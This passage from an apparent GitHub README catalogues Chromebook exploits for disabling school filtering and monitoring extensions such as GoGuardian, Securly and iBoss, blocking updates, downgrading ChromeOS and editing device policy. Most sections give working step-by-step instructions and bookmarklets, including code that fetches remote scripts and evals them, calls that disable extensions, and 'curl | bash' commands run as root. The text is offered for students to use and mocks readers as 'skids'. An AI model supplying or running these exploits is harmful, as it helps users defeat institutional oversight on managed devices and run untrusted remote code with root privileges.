1. create a bookmark named anything, head to the URL section, and paste this in it: `data:text/html,<!DOCTYPE html> <html> <head> <title>full screen iframe</title> <style type="text/css"> html { overflow: auto; } html, body, div, iframe { margin: 0px; padding: 0px; height: 100%; border: none; } iframe { display: block; width: 100%; border: none; overflow-y: auto; overflow-x: hidden; } </style> </head> <body> <iframe src="https://www.google.com?igu=1" frameborder="0" marginheight="0" marginwidth="0" width="100%" height="100%" scrolling="auto" id="google"> </iframe> </body> </html>`
2.  when you are in a focus session, click the bookmark, and it will open a Google tab. (If it says that it doesn't work, then you can download the [Iframe](https://github.com/3kh0/ext-remover/blob/main/HaparaBypass-Iframe.html)
3.  enjoy not having to listen to a lecture from your teacher!
(Credit to [Hero Link 6](https://github.com/HeroLink6) For finding this exploit, you can find more info on his GitHub repository [here](https://github.com/HeroLink6/Hapara-Focus-Session-Bypass/tree/main).)

[**🔼 Back to top**](#ext-remover)

## GuardianTabCrash *Unrestricted browsing*

### What is it?

An exploit that allows for unrestricted internet access outside of GoGuardian's control

### How to use it?

**Teachers can still see your screen, but they can't block or close any of your tabs.**

**YOUR TEACHER NEEDS TO HAVE SET A TAB LIMIT. TRY OPENING TONS OF TABS TO CONVINCE THEM TO ENABLE TAB LIMITS**.

1. create a bookmark named anything: `javascript: window.onbeforeunload = ()=>{return false;}`
2. Hold down CTRL and then SPAM CLICK the bookmark until you're well above the tab limit, opening a bunch of `about:blank` pages.
3. It might ask if you want to leave this page. This is GoGuardian trying to close it. Say No, and click `Prevent from creating additional dialogues`.
4. Enjoy your unblocked stay!

#### Discovered by @py660

[**🔼 Back to top**](#ext-remover)

## Skiovox *Unrestricted browsing*

### What is it?

An exploit that allows for browsing within a completely unblocked Chrome
browser. It works on ChromeOS 118 and a wide range of previous versions.
- Skiovox utilizes a bug in kiosk apps
- Very similar to a bug from 3 years ago
  
Within the unblocked browser, you can
- Install extensions
- Bypass pretty much all blocks
- Do whatever the honk you want

### How to use it

Bypassi made a wonderful slideshow for you goofballs to follow and view using the first link below! (Note: The others no longer work and are only there for archival purposes.)

- [`img/skiovox.pdf`](img/skiovox.pdf)
- https://www.skiovox.com/skiovox.pdf
- https://drive.google.com/file/d/1tl8eP26MFRejHO38H5HwMLl2VaQrtn0Z/preview
- https://ftp.3kh0.net/Archive/skiovox.pdf
- https://1drv.ms/b/s!Ais5N3vPLTEMh8poZbywnNWdMUrhUA?e=MaCHBx

### Further Reading
- [Skiovox helper](https://github.com/bypassiwastaken/skiovox-helper)

[**🔼 Back to top**](#ext-remover)

## LTBEEF *Disable extensions*

LTBEEF (Literally The Best Exploit Ever Found) is an exploit found by Bypassi (Bypassi#7037) in September 2022 and is a great way to disable spyware installed on your Chromebook by your school.

### How to use LTBEEF

Use either of the two bookmarklets below. The instructions are the same for both.

1. Copy the Javascript code from either of the two bookmarklets below
2. Make a new bookmark on your Chromebook
3. Put the Javascript code in the URL section of the bookmark
4. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
5. If that page does not work, you can just change the end of the URL to anything else, like https://chrome.google.com/webstoreYAAAAAAAAAAAAAAAY
6. Click on the bookmark you made
7. Switch off the extensions you don't want to have anymore.
8. You're done! The extension should now be disabled. 

**Please note that this exploit has been patched for quite some time**

### Bookmarklets

#### CompactCow GUI



```js
javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```

#### Ingot



```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```

[**🔼 Back to top**](#ext-remover)

## LoMoH *Disable extensions*

Formerly named "Locked Mode Hack," this Chrome OS exploit uses the locked mode feature to soft disable force-enabled extensions on managed accounts (Excluding Hapara Highlights and Read&Write if installed).

**This exploit is patched in Chrome OS 111**

### Bookmarklet Version (Original and nicer)
```
javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()
```

### Website/HTML Version (for blocked bookmarklets)
[LoMoH HTML](https://ashtondavies.github.io/LoMoH?unlock)
**Additional Notes:**
You must create your link with the button on the page for locked mode to work within your organization/district.
If this is patched for you, you will get rickrolled attempting to perform this exploit. This is just a heads-up for those who do happen to read this.

[GitHub Repository](https://github.com/AshtonDavies/LoMoH)

[**🔼 Back to top**](#ext-remover)

## LTMEAT *Disable extensions*

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

1. Find a page belonging to the extension you want to disable. `chrome://extensions`, `chrome://extensions-internals`, and `chrome://process-internals` are all good places to find your extension's ID (a 32-character lowercase string). You can also do a simple Google search. Once you have your ID, substitute it into the hostname in the URL below:

```
chrome-extension://extensionidhereblahblah/manifest.json
```

For some filters like Securly, the block screen is already an extension page. 

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C). 
3. On the extension page (A), click the `chrome://kill` bookmark (B). The page should crash. You should already have the next step prepared. 
4. Instantly start spamming `chrome://hang` (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or `ctrl`+`R`). You should have reloaded within one or two seconds of killing the page. 
5. If the extension page (bookmark A) no longer loads, then LTMEAT worked! You can close your tabs, and the extension will be dead. If nothing loads, you probably reloaded too late or spammed too slowly. This isn't rocket science! Restart your computer to revert back to normal. 

Exploit made by [Bypassi#7037](https://buymeacoffee.com/bypassi), [learn why this works](https://ltmeat.bypassi.com).

### "Help me! I'm an idiot!"

I had far too much faith in society when making this page. Some of you skids out there are really, really stupid and also can't read. So here are the answers to some commonly asked questions. 

**How do I get an extension ID?**

Okay, fair. Extension IDs are leaked in a couple of places. Generally, the best way to get them is to go to extension settings and copy the URL query value.

**It says blocked by client?**

That's the message you get when you try to visit a page belonging to an extension that doesn't exist. The error message (`ERR_BLOCKED_BY_CLIENT`) is highly misleading. Nobody blocked it. You need to find the correct extension ID (see above).

If you got this because you tried to visit the `extension_id_here` example URL, you should be extremely ashamed of yourself. Please change and grow as a person.

**I don't have a bookmarks bar!!!!**

First, try running ctrl+shift+B. If that doesn't work, go to `chrome://settings` and turn on the "home button" feature, then set it to `chrome://hang`. A home icon in the top left should appear to the right of your refresh icon. Use that instead of bookmark C.

There is a version where you don't need bookmarklets, but I am currently gatekeeping it (L). Check this site daily to see if new alternate instructions have been posted. 

**I disabled an extension, but now I can't load websites!**

If you just read the write-up, you'd know this would happen if the extension's background page loaded and its listeners were already initialized before you used `chrome://hang`. You can double-check whether the extension is listening using `chrome://extensions-internals`, assuming you have a few brain cells in your head.

Anyway, no listeners mean you were too slow. Either you waited more than three seconds between bookmark B and reloading the page, or you needed to be spamming bookmark C faster. The most reliable fix is to restart your computer and try again. Try to match the pace of the gif below: (note the reload) 


**The bookmarks don't do anything when I click them!**

Might be admin-blocked. Either be smart enough to figure out another way or check this site daily to see if new alternate instructions have been posted.

**I disabled the extension. Why is some stuff still blocked?**

I have bad news for you... not all filters are Chrome Extensions. Again, make sure the extension pages (like bookmark A) are frozen before you assume that your skiddy self successfully did the exploit. 

[Baby method for slow people](https://ltmeat.bypassi.com/alt/1.txt)

[**🔼 Back to top**](#ext-remover)

## LTMEAT Flood *Freeze extensions*

1. Create a bookmark folder and paste the extension page many times. (About 800 minimum is recommended, assuming your Chromebook is average school quality) You should add the extension page at the beginning of the folder.
2. Right-click and open all in a new window.
3. Close the window with all those tabs.
4. Open the folder in a new window again, and Chrome should hang those tabs to take care of the old ones in the background that were just closed. (Equivalent to the duplicate tab step in Bypassi's method)
5. Flip the Allow access to file URLs switch in the extension settings, and then you've bypassed the patch, and the exploit is working.

Close everything and you're good to go. If it didn't work, try adjusting the number of open tabs. This is the LTMEAT Flood Method, and also unofficially called Alternate Method # 2. Enjoy a much longer life of LTMEAT!

**Not working?** Ensure you open a large set, but not too large, of extension tabs (_/generated_background_page.html or /manifest.json) for a permanent freeze.

[**🔼 Back to top**](#ext-remover)

## Temp TMEAT *Freeze extensions*

A method of using LTMEAT that does not require `chrome://` URLs. This works by using 80-150 tabs to soak up memory.

1. Create a bookmark with the link `chrome://extensions/?id=extension_id_here` and name it `Kill switch`.
2. Create a new bookmark folder. Name it `spam.js`. Next, paste this link into your browser: `chrome-extension://extension_id_here/background.js`
3. Then right-click on your folder and hit `Add Page`. Press Enter.
4. Right-click on the folder again and hit `Bookmark Manager`. You should see your page. Click on it and hit `Ctrl`+`C`. Press `Ctrl`+`V` until you have 38 of them.
5. Go to a new tab and right-click your folder. Press `Open All (38)`.
6. Repeat step 3, then click on one of the tabs from this batch. Wait until the `This page is taking too long` popup appears. This will take 30-60 seconds. If it doesn’t, do `chrome://restart` and go back to step 2. Add 3-4 more pages to the folder.
7. Once the popup happens, right-click on one of the tabs closest to the right of the screen and hit `Duplicate`. Then, go to your `Kill switch` bookmark and look for a switch to flip, `Allow Access to File://URLs`. Then, click on the leftmost extension tab (one that opened from the main.js folder) and click `Close all tabs to the right`. KEEP THIS TAB OPEN!!!

Tips: Go to `chrome://settings/performance` and turn Memory Saver off, and in the box where it says `Keep these sites always active`, paste in the extension URL. I’ve noticed clicking on one of the tabs from the second batch seems to help with reliability.

[**🔼 Back to top**](#ext-remover)

## Baby LTMEAT *Freeze extensions*

BABY METHOD
FOR THE TECHNOLOGICALLY CHALLENGED.

1. Follow step one of the original instructions to find a page belonging to the Chrome extension you want to disable.
2. Visit that `chrome-extension://extension_id_here` page, then type `chrome://hang` in the URL bar of that tab. It should start loading infinitely.
3. Right-click the tab and duplicate it. Don't close anything.
4. Go to the `chrome://extensions` page for the blocker extension you want to Disable.
5. If that page has any switch, such as `Allow access to file URLs`, click that switch. If you don't see any clickable switches, this exploit will not work
6. The extension should now be broken, assuming you clicked the switch! Only one of the two duplicate tabs should be left standing. You can close your tabs now.

[**🔼 Back to top**](#ext-remover)

## LTMEAT Print *Freeze extensions*

1. Find your extension's largest file. This can usually be found by using [Rob Wu's crxviewer](https://robwu.nl/crxviewer/)
2. Go to that page and run `Ctrl`+`P`. A print window should show up, with several pages in the top right.
3. Do everything you can to increase that number. Shrink down margins, change layout to landscape, anything you can. The higher you get that number, the longer the effect will last.
4. Reload. The page should start hanging.
5. Go to your extension's settings page, `chrome://extensions`.
6. Duplicate your "printing" tab, and go back to your extension's settings page.
7. Flip any switch you can find there. Usually, there'll be one titled `Allow access to file URLs`.

### Where do I find my extension's manifest.json?
First, find your extension's ID. This is a 32-character code found on your extension's settings page, normally near or at the top. 



Then go to `chrome-extension://extension_id_here/manifest.json`

Credit to Bypassi for the original LTMEAT framework, and to Swordmaster4321 for discovering that pages can be hung with printing.

[**🔼 Back to top**](#ext-remover)

## LTMEAT Overload *Hang extensions*

1. Go to `chrome://extensions/?id=extension_id_here`
2. Find the `Allow access to file URLs` switch
3. Open the site you want to go to in the address bar of a new tab **DO NOT OPEN THE SITE YET**
4. Spam the file URLs switch for a couple seconds, until the size section starts loading forever
5. Quickly switch to the tab and hit enter.
6. Any time you want to navigate to a new website spam the switch again
   
[**🔼 Back to top**](#ext-remover)

## Dextensify *Freeze extensions*

Dextensify is an exploit that lets you disable most admin-installed Chrome extensions from any webpage. It can be used from regular websites, HTML files, and data URLs.

Go here and follow instructions: <a href="https://dextensify.pages.dev/main">Dextensify Main HTML</a>, or download the file here [Dextensify.html](Dextensify.html)

Download mirror: [ftp.3kh0.net](https://ftp.3kh0.net/Archive/Dextensify/)

Made by <a href="https://ading.dev/">ading2210</a>

[**🔼 Back to top**](#ext-remover)

## JPCMG *LTBEEF w/ Service workers*

**Requirements**
- `chrome://serviceworker-internals`
- Inspect element

1. Go to `chrome://serviceworker-internals`
2. Find your extension, this exploit will not work if you can't find it. Some extensions will not work with this exploit.
3. Hit the start button then the `Inspect` button, and execute the LTBEEF code
```js
chrome.management.setEnabled('extension_id_here',false)
```



Thanks to Nyaann#3881 for this exploit

[**🔼 Back to top**](#ext-remover)

## Corkey *Corrupt extensions*

Corkey does indeed include power washing the Chromebook, which wipes local data including everything under "My files," so I suggest you select everything you want to drag and back up to Google Drive if that's available for your account.

1. Esc+Refresh+Power and re-enroll (Enter recovery page), or you can just powerwash.
2. Log into your Chromebook and immediately turn off WiFi and do refresh+power to instant-restart.
3. Log back into your Chromebook with the WiFi off. Look for an option to log in as an existing user and click that.
4. Go to `chrome://extensions`, turn on WiFi, and wait for your school's blocking extension to appear.
5. As soon as it appears, turn off WiFi and restart as fast as possible.
6. Log back in, go back to extensions, and wait. If it says your blocking extension could be corrupted or doesn't appear at all, then it worked (wait at least a minute with a close watch in case it comes back.)
7. If it didn't work, start over. You have to be fast.

[**🔼 Back to top**](#ext-remover)

## Extension Launcher *Install extensions w/o allowlist*

A bookmarklet capable of installing extensions, for those without an allowlist.

### Requirements
1. Access to the Chrome Web Store
2. A Chromebook without allowlist
3. Bookmarklets enabled

### Instructions

1. Go to [`ext-launcher-bookmarklet.js`](ext-launcher-bookmarklet.js) and save the code as a bookmarklet.
2. Go to [The Chrome Webstore](https://chrome.google.com/webstorex) and use the bookmarklet
3. Then put the icon of the extension, the ID, and the name of it (This does not matter, you can put anything), then press download, and it will work.

### Extra Notes
- This will not work if you have a blocklist, this is only for extensions that aren't on the allowlist
- Credit to "Aka, but nice" on Discord.

[**🔼 Back to top**](#ext-remover)

## Point-Blank *Execute scripts on extension pages*

This exploit allows you to execute scripts on extension pages, this is a great example of how Chromebooks are a piece of garbage.

### Requirements
1. Bookmarklets enabled
2. Access to a working brain

### Getting started

1. Go to [`newpointblank.js`](newpointblank.js) and save the code as a bookmarklet on your Chromebook.
2. Now find your blocker from the list below.

### Blockers

#### Securly

[Go to this page](https://tinyurl.com/bettergoofcurly)

If it says blocked by Chrome, reload (you have to actually have Securly ofc)

#### iBoss

[Go to this page](https://tinyurl.com/goofboss)

#### Cisco Umbrella

[Go to this page](https://tinyurl.com/goofumbrella)

#### Blocksi

[Go to this page](https://tinyurl.com/goofsi)

#### GoGuardian

[Go to this page](https://tinyurl.com/goofguardian)

If your school updated GoGuardian, this exploit may not work.

### Extra Notes

- Now most of these links are a block page (this is intentional) 
- Each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made 
- Click either hard disable or soft disable, soft disable will only disable it until you restart your Chromebook.
- You can also run some of the scripts and run your own code, your extension may disable javascript running on it, so running your own code may not work.
- I recommend doing soft disable, which only disables it until restart. 
- The idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>

[**🔼 Back to top**](#ext-remover)

## UBoss *Tamper with IBoss*

This works only for iBoss, and Blocksi, If you don't have one of these, use New Point Blank.

### Requirements
- Bookmarklets enabled
- Access to a working brain

### Getting started
1. Go to the corresponding link for your blocker below.

iBoss: [tinyurl.com/byeswamp](https://tinyurl.com/byeswamp)

Blocksi: [tinyurl.com/blockboss](https://tinyurl.com/blockboss)

Then bookmark the code below:

```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
2. Then go to the site with your blocker that was listed above.
3. Run the code. Follow the instructions there.

If it doesn't work let us know by creating a discussion, this was made in partnership with `akabutnice` and `bypassi`.

[**🔼 Back to top**](#ext-remover)

## CAUB *Prevent Updates*

This exploit keeps your Chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your Chromebook that the WiFi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates. 
### Note
Do **_NOT_** leave your Chromebook on a new WiFi network for more then a day without redoing the process unless you also have CAUB Flags. Even if you do have both, it can't hurt to be safe when taking your chromebook somewhere new.

### Requirements
- Access to `chrome://network#state`

### Getting started
1. Go to `chrome://network#state`.
2. Scroll to the bottom of the page. You will see a list of WiFi that you have connected to before.
3. Click the `+` sign next to the WiFi name of each network that you commonly connect your Chromebook to.
4. We are going to make it so that when the Chromebook is connected to those networks, it will not check for updates.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox below.
8. Press the `generate onc` button below the textbox.
9. Once you have downloaded the file, go to `chrome://network#general`.
10. Click on the `import ONC` button.
11. Import the newly-downloaded file.

**Extra notes**
- Your Chromebook will no longer automatically update. (as long as you are on a wifi that you CAUBed)
- Be careful not to stay on wifi for too long without using CAUB on it, otherwise, you might update.
- We cannot guarantee that this will work on every wifi, but it should work on most.

[**🔼 Back to top**](#ext-remover)

## CAUB Flags *Prevent Updates*

This alt exploit keeps your Chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by <a href="https://github.com/MechaXYZ">MechaXYZ</a>. Using a Chrome flag, you can convince your Chromebook not to automatically update.

### Requirements
- Access to `chrome://flags`

### Getting started

1. Go to `chrome://flags#show-metered-toggle` or search "metered" in `chrome://flags` instead.
2. Enable it and restart your device.
3. Open the Settings app.
4. Go to your Network >> Advanced >> Show metered toggle and turn it on

**Extra notes**
- Your Chromebook will no longer automatically update. (as long as you have the flag enabled)
- And you must be able to enable flags if it ain't blocked otherwise, this exploit won't work

[**🔼 Back to top**](#ext-remover)

## Blank3r

Blank3r is an exploit that allows you to run bookmarklets on privileged pages, such as the Chrome extensions page. This exploit was made with Point Blank as well.

### Requirements
- Bookmarklets enabled

### Getting started
1. Bookmark this code:

```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```
2. Navigate to `chrome://extensions`.
3. Click on an extension that YOU installed from the Chrome Web Store > Details.
4. In the URL bar, copy the string of letters and numbers after the `/?id=`.
5. Click "View in Chrome Web Store" and spam the escape key. If it loads into Chrome Webstore try again, if it is a blank screen click the bookmarklet.
5. Paste the ID of the extension into the prompt separated by commas.

If you close the tab, the exploit will stop working.

[**🔼 Back to top**](#ext-remover)

## Downgrading *Change versions*

Downgrading can be used for several exploits, to get to a version that does not have patches for certain exploits, such as LTBEEF, SH1MMER, or CryptoSmite. This is a built-in feature of ChromeOS.

Please do note that depending on your `kernver=` you may not be able to downgrade to certain versions. More info can be found at the [Finding Kernver](#finding-kernver) section.

### Requirements
- A USB thumb drive with at least 8GB of storage, however 16GB (or more) is recommended.
- A personal computer with access to downloading the Chromebook Recovery Utility.

### Setup

1. Navigate to `chrome://version` on the Chromebook you wish to downgrade. If that is blocked try `chrome://system/:~:text=CHROMEOS_RELEASE_DESCRIPTION`, and check for your board under `Platform`. For me, that would be octopus.



2. Navigate to [chrome100.dev](https://chrome100.dev/) , press `ctrl+f` and type in your board.
3. Find and download the Chrome version you want to your personal computer.

### Downgrading
1. Install [Chromebook Recovery Utility](https://chromewebstore.google.com/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm) onto your personal computer.
2. Open the extension, click on the settings button in the top right-hand corner, and click "Use local image".
3. Select the recovery image you downloaded from chrome100.
4. Plug in the USB you wish to use, and follow the prompts on the screen.
5. On your Chromebook, press esc+reload+power and follow the prompts.
6. On the checking for updates screen or Wi-Fi selection screen, press `ctrl`+`alt`+`e` to skip the "checking for updates" screen.

[**🔼 Back to top**](#ext-remover)

## Pollen *Policy Editor*

chromeOS User Policy Editor

### Requirements
- Devmode **NEEDS** to be enabled.

### Getting started

There are two modes for this, I recommend just using the first one.

#### Normal

1. Open Crosh (Ctrl+Alt+T)
2. Run the following commands:
```sh
shell
sudo su
curl -Ls https://mercuryworkshop.github.io/Pollen/Pollen.sh | bash
```
3. Done! It may take a few seconds for the new policy to apply. If it does not apply, press `alt+vol_up+x`.

#### PollenFS (RootFS)

Disabling RootFS **will** Soft-Brick your Chromebook when booting back into normal mode.

1. Open Crosh (Ctrl+Alt+T)
2. Run the following commands:
```sh
shell
sudo su
curl -Ls https://mercuryworkshop.github.io/Pollen/RootFS.sh | bash
```
3. Reboot
4. Go Through Steps 1-3 Again
5. Run the following command:
```sh
curl -Ls https://mercuryworkshop.github.io/Pollen/PollenFS.sh | bash
```
6. Done! Your Pollen configuration is now permanently applied!

### Further Reading
- [Repository](https://github.com/MercuryWorkshop/Pollen)

[**🔼 Back to top**](#ext-remover)

## Killcurly *Break extensions*
Kill extensions by signing out.

1. Visit `chrome://settings/signOut`.
2. If you are on the right version, there should be a big blue button. Press it.
3. Open a new tab and type in `chrome://restart`, then press enter.
4. Now visit `tinyurl.com/AddSession` or [this link.](https://accounts.google.com/signin/v2/identifier?hl=en&continue=https%3A%2F%2Fwww.google.com%2F&ec=GAlAmgQ&flowName=GlifWebSignIn&flowEntry=AddSession)
5. Add your **SCHOOL** account back. It WILL NOT WORK if you add a home account back. This is just so you can still access Google Drive, YouTube, and any Google service.

Alternate method (unpatched)
1. Visit chrome://settings/content/all
2. Find google.com
3. Click trashcan button
4. Click delete
5. Go to chrome://extensions and find securly (or whatever other ext)
6. Click the allow access to file urls switch
Now you can go to the link and add account back if you want, but not necessary.

All of your extensions should stop working. Note that you must repeat this every time you restart or sign out. 

Method 1 is patched on Chrome versions 112 and above. Method 2 remains unpatched. Credit to Zoroark for method 1 and schoolexploitkid for method 2.

[**🔼 Back to top**](#ext-remover)

## Shimboot *Boot Linux*

Shimboot is a collection of scripts for patching a Chrome OS RMA shim to serve as a bootloader for a standard Linux distribution. It allows you to boot a full desktop Debian install on a Chromebook, without needing to unenroll it or modify the firmware.

For more detailed information, please see the project's [README](https://github.com/ading2210/shimboot).

Credit to [vk6](https://ading.dev/) for this exploit

### Further reading
- [Repository](https://github.com/ading2210/shimboot)
- [Project Website](https://shimboot.ading.dev/)

[**🔼 Back to top**](#ext-remover)

## uBlock Run *Run Code On Pages*
> [!NOTE]
> Google is deprecating mv2, so uBlock will not work as of Oct 24, and will be fully removed for enterprise as well in June 25. More info [here](https://developer.chrome.com/docs/extensions/develop/migrate/mv2-deprecation-timeline)

If your school allows the uBlock Origin Chrome extension, you can run bookmarklets with the extension.

### Requirements
- uBlock Origin

### Getting started
1. Make sure you have [uBlock Origin](https://chromewebstore.google.com/detail/ublock-origin/cjpalhdlnbpafiamejdnhcphjbkeiagm) installed.
2. Go to the extension's settings.
3. Under the settings tab, check the "I am an advanced user" box, then click on the small cog icon.
4. Find `userResourcesLocation` and change it from `unset` to `https://raw.githubusercontent.com/3kh0/ext-remover/main/ublockExec.js`.
5. Go to the filters tab of the settings and add the following line:
```
*##+js(execute_script.js)
```
6. Now press ctr+alt+tilde (~) to run code on the current page
7. Have fun!

[**🔼 Back to top**](#ext-remover)

## uRun - Bypass bookmarklet restrictions with uBlock
> [!NOTE]
> Google is deprecating mv2, so uBlock will not work as of Oct 24, and will be fully removed for enterprise as well in June 25. More info [here](https://developer.chrome.com/docs/extensions/develop/migrate/mv2-deprecation-timeline)

From [Inglan2](https://github.com/Inglan2)

Recently Google cracked down on bookmarklets and now they don't work (It's based on the [DeveloperToolsAvailability](https://chromeenterprise.google/policies/?policy=DeveloperToolsAvailability) policy). I wanted to run scripts still so I started making this, inspired by [uBlock Run *Run Code On Pages*](#ublock-run-run-code-on-pages), but with more features, like saving scripts.
1. Open uBlock settings
2. Enable advanced settings, and click the gear ⚙️ button

> [!CAUTION]
> DO NOT MODIFY ANYTHING ELSE ON THIS PAGE UNLESS YOU KNOW WHAT YOU ARE DOING (you probably don't), AS YOU COULD BREAK SOMETHING.

> [!TIP]
> If you mess up, go to the home of settings and at the bottom click reset to default settings

3. Add the script
> Change
> ```
> userResourcesLocation unset
> ```
> to
> ```
> userResourcesLocation https://inglan2.github.io/uRun/urun.js
> ```

> [!TIP]
> It's down the bottom
4. Set a filter to load uRun
> After closing the advanced settings tab, go to the filters tab and add this:
> ```
> *##+js(urun.js)
> ```

### Usage
Simply press Ctrl + Shift + \` to open the menu and from there you can run and create scripts. To add a script, press the ➕ button up the top right, and enter the code you would like to add (without the `javascript:` part).

[**🔼 Back to top**](#ext-remover)

## Quick View *Bypass extensions*

### Requirements
- Bookmarklets enabled

QuickView is a universal webview exploit in Chrome OS that utilizes the QuickOffice component extension. This exploit lets you create login windows with arbitrary URLs, thus allowing you to load pages without any extensions.

Go to <a href="https://quickview-exploit.pages.dev/">quickview-exploit.pages.dev</a> and follow the instructions.

### Further reading
- [Writeup](https://ading.dev/blog/posts/quickview.html)
- [Repository](https://github.com/ading2210/quickview)

[**🔼 Back to top**](#ext-remover)

## Buypass *Bypass extensions*

### What it can and can't do

- This only lasts for 3 minutes!
- Pages visited in this window will not be saved to your history, but their cookies will be saved.
- You can right-click on the window to go back and forward.
- There's no good way to make the text in the window larger.
- This won't bypass network filters.
- You can't log into non-school accounts.
- It's completely possible that some filters could read and block the data sent within the window.

### Getting started

Visit any of the links below:
- [https://the-buypass.netlify.app/](https://the-buypass.netlify.app/)
- [https://playful-meringue-fb58bc.netlify.app/](https://playful-meringue-fb58bc.netlify.app/)
- [https://buypass-poc.netlify.app/](https://buypass-poc.netlify.app)

Broken links:
- https://buypass.bypassi.com
- https://buypass.brandonprather.repl.co
- https://buypass.glitch.me
- https://buypass.netlify.app

### Further reading
- [Repository](https://github.com/bypassiwastaken/buypass)

[**🔼 Back to top**](#ext-remover) 

## Chaos *Hapara bypass*

**DevTools must not be allowed by policy to perform this exploit.**

Go to <a href="https://xlak.github.io/chaos/">this link</a> and follow the instructions.

### Further Reading:
- [Repository](https://github.com/xlak/chaos)

[**🔼 Back to top**](#ext-remover)

## SOT Exploit *Open URLs in OneTab*

1. If you do not already have [OneTab](https://chromewebstore.google.com/detail/onetab/chphlpgkkbolifaimnlloiipkdnihall) installed, try to.
2. Click the import button in the settings tab.
3. Copy-paste the URL you wish to visit about 100 times, and then click import.
4. Spam click the top link, then either spam escape on one of them or wait for one to load on a about:blank page.
  
Credit to [Coding4Hours](https://github.com/Coding4Hours)

[**🔼 Back to top**](#ext-remover)

## GoGuardian GoAway *GoGuardian bypass*
THIS EXPLOIT WILL NOT WORK FOR YOU IF YOU HAVE ANY EXTENSION BESIDES GOGUARDIAN

### Getting Started
1. Obviously (but still needs to be said due to skids), make sure GoGuardian is actually installed
2. Visit the [attached URL](goaway.txt) in a new tab
3. On that tab there will be a simple white screen with nothing on it, reload the page
4. If the GET request fails and you are left on an error screen (don't panic, this is intended, continue)
5. Visit `chrome://restart`` to clear cached sites from GoGuardian

Credit to akabutnice

[**🔼 Back to top**](#ext-remover)

## Microsoft Labs *Virtualbox but it got 20 doses of the COVID Vaccine*

Thanks a bunch Bill Gates

**Do this! Not drugs!**
1. Go to this website [Microsoft Labs](https://learn.microsoft.com/en-us/training/modules/implement-common-integration-features-finance-ops/10-exercise-1)
2. Click the button that says "Sign in to launch VM mode."
3. Holy guacamole! You need a Microsoft Account! Use your credentials and sign in.
4. Load the virtual machine by clicking the button or if you sign it it will redirect you to it automatically.
5. The password is `pass@word1`.
6. Load in and profit!

NOTE: Sound doesn't work and a lot of websites are blocked, but it's just fun to screw around with.

(Not really) credit to mundaneunblocking

[**🔼 Back to top**](#ext-remover)
